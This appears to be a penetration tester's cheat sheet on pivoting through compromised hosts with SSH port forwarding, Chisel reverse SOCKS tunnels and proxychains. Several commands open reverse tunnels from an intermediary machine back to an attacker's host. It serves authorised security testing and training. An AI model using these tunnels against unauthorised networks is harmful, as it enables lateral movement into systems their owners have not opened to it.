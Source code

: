 ## SSH Port Forwarding
###### SSH Local Port Forward
`ssh -L -N <local-listener-port>:<target-ip>:<remote-port> username@remotehost`
###### SSH Dynamic Port Forward
`ssh -D <local-port> username@remotehost`
**Note:** From here, access any other port on any other host that 'remotehost' has access to through that single port. This means that if we have set up a dynamic port forward from a compromised machine to a second compromised machine that has further access, our original attack machine can access the specified `<local-port>` using [[#SSH Dynamic Port Forward|proxychains]].
###### SSH Remote Port Forward
`ssh -N -R 127.0.0.1:<local-listener-port>:<target-ip>:<remote-port> kali@<your-ip>`
**Note:** This connection is made from an intermediary machine, between the attack machine and the target machine but with routes to both. The attack machine can then access the remote target port through the local IP and listener port.
###### SSH Remote Dynamic Port Forward
`ssh -N -R <proxy-port> kali@<your-ip>`
This initiates a reverse connection and binds a SOCKS proxy port to the local interface on the attack machine. Configure [[#Remote Dynamic Port Forward Proxy|proxychains]] to forward traffic through the proxy and access remote targets that are routable by the intermediary machine.

---
## Chisel
###### Set up Chisel Server
`chisel server --port <listener-port> --reverse`
###### Check Proxy Status
`sudo ss -ntplu`
**Note:** Identify the local port here for adding to the [[#Remote Dynamic Port Forward Proxy|proxychains]] config. Use the Remote Dynamic example.
###### Execute Chisel on Client
`./chisel client <attack-ip>:<listener-port> R:socks`
###### Execute Commands via the Proxy
`proxychains ssh <user>@<remote-ip>`

---
## SOCKS Proxy
Modify the SOCKS proxy to point at the port you want:
`nano /etc/proxychains4.conf`
###### Dynamic Port Forward Proxy
`socks5 192.168.188.63 9999` 
###### Remote Dynamic Port Forward Proxy
`socks5 127.0.0.1 9998`
**Note:**  Run your tool with proxychains in front of it to send all traffic through that port instead:
`proxychains nmap -sT 172.168.188.63` Where 172.168.188.63 is a machine that can only be reached through your intermediary proxy.